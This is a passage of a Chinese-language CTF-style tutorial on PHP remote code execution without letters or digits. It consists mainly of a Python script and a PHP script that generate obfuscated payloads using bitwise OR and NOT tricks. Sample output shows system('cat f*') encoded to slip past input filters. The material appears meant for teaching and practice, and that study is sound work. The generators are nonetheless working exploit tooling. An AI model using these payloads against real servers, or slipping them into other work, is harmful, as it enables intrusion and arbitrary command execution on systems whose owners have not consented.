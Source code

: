 python:

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```

运行结果：

```cmd
D:\xxx\scripts>python rce_or.py
[+] your function：system
[+] your command：cat f*
("%13%19%13%14%05%0d"|"%60%60%60%60%60%60")("%03%01%14%00%06%00"|"%60%60%60%20%60%2a");
```







#### 3、取反

我们知道，对一个字符进行两次取反，会得到原来的值，我们可以利用这个特性进行突破



脚本：

```php
<?php
//在命令行中运行
// 取反
// 无数字字母getshell

while(true) {
    fwrite(STDOUT,PHP_EOL.'[+]your function: ');
    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 
    fwrite(STDOUT,PHP_EOL.'\n[+]your command: ');
    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 
    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';   //两次取反可得到原结果
}
```
